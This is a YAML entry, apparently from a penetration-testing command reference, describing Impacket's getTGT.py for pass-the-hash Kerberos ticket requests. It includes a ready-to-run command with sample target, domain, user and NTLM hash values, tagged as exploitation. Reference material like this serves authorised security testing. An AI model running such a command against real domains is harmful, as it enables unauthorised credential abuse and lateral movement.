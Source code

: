 ```yaml
---
description: |
  Impacket's getTGT.py uses a valid user's NTLM hash to request Kerberos tickets, in order to access any service or machine where that user has permissions.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

command: |
  python3 getTGT.py test.local/john -dc-ip 10.10.10.1 -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
items:
  - Hash
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

